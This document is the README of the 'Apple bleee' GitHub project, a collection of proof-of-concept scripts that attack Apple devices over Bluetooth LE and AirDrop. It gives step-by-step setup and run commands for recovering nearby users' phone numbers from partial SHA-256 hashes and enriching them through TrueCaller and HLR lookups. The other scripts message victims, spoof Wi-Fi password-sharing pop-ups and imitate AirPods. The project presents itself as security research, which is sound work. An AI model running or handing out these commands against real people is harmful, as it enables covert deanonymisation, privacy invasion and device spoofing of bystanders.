 # Apple bleee

<p align="center">
  <img src="https://github.com/hexway/apple_bleee/blob/master/img/logo.jpg"  height="350">
</p>

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***This project is created only for educational purposes and cannot be used for law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and WiFi card supporting active monitor mode with frame injection for communication using `AWDL` (AirDrop). We recommend the Atheros AR9280 chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**


## Installation

```
# clone main repo
git clone https://github.com/hexway/apple_bleee.git && cd ./apple_bleee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --init && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### Script: [ble_read_state.py](https://github.com/hexway/apple_bleee/blob/master/ble_read_state.py)

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values.

![dev_status](img/dev_status.png)

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-t TTL]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help          show this help message and exit
  -c, --check_hash    Get phone number by hash
  -n, --check_phone   Get user info by phone number (TrueCaller/etc)
  -r, --check_region  Get phone number region info
  -l, --check_hlr     Get phone number info by HLR request (hlrlookup.com)
  -s, --ssid          Get SSID from requests
  -m, --message       Send iMessage to the victim
  -a, --airdrop       Get info from AWDL
  -t TTL, --ttl TTL   ttl
```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit

If you want to get phone numbers from a WiFi password request, you have to prepare the hashtable (please find scripts below), setup a web server and specify `base_url` inside this script and run it with  `-c` parameter

```bash
sudo python3 ble_read_state.py -с
```

**Video demo (click):**

[![airdrop_demo](img/status_gif.gif)](https://www.youtube.com/watch?v=Bi602yAIBAw)

### Script: [airdrop_leak.py](https://github.com/hexway/apple_bleee/blob/master/airdrop_leak.py)

This script allows to get mobile phone number of any user who will try to send file via AirDrop

For this script, we'll need `AWDL` interface:
```bash
# set wifi card to monitor mode and run owl
sudo iwconfig wlan0 mode monitor && sudo ip link set wlan0 up && sudo owl -i wlan0 -N &
```

Now, you can run the script

```bash
python3 airdrop_leak.py -h
usage: airdrop_leak.py [-h] [-c] [-n] [-m]

Apple AirDrop phone number catcher
---chipik

optional arguments:
  -h, --help         show this help message and exit
  -c, --check_hash   Get phone number by hash
  -n, --check_phone  Get user info by phone number (TrueCaller/etc)
  -m, --message      Send iMessage to the victim
```

With no params, the script just displays phone hash and ipv6 address of the sender

```bash
sudo python3 airdrop_leak.py
```

**Video demo (click):**

[![airdrop_demo](img/airdrop_gif.gif)](https://www.youtube.com/watch?v=mREIeH_s3z8)

### Script: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py)

This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger a pop up message on the target device if he/she knows any phone/email that exists on the victim's device

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a WiFi password request, we'll need to specify any contact (email/phone) that exists in a victim's contacts and the SSID of a WiFi network the victim knows

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```

**Video demo (click):**

[![share_wifi_demo](img/share_wifi_pwd2_gif.gif)](https://www.youtube.com/watch?v=QkGCP2mfbJ8)

### Script: [adv_airpods.py](https://github.com/hexway/apple_bleee/blob/master/adv_airpods.py)

This script mimics AirPods by sending `BLE` messages

```bash
python3 adv_airpods.py -h
usage: adv_airpods.py [-h] [-i INTERVAL] [-r]

AirPods advertise spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
  -r, --random          Send random charge values
```

Let's send `BLE` messages with random charge values for headphones

```bash
sudo python3 adv_airpods.py -r
```

**Video demo (click):**

[![airdrop_demo](img/airpods_gif.gif)](https://www.youtube.com/watch?v=HoSuLUtrkXo)

### Script: [hash2phone](https://github.com/hexway/apple_bleee/blob/master/hash2phone/)

You can use this script to create pre-calculated table with mobile phone numbers hashes<br>
Please find details [here](/hash2phone)

## Contacts

[https://hexway.io](https://hexway.io)<br>
[@_hexway](https://twitter.com/_hexway)
